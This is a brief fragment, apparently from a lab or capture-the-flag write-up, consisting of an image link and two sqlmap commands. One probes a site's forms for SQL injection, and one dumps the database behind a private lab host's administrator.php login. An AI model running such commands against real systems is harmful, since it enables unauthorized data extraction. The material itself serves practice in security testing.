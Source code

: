 sqlmap -u url --forms
sqlmap -u http://10.10.33.24/administrator.php --dump --data="username=admin&password=admin" 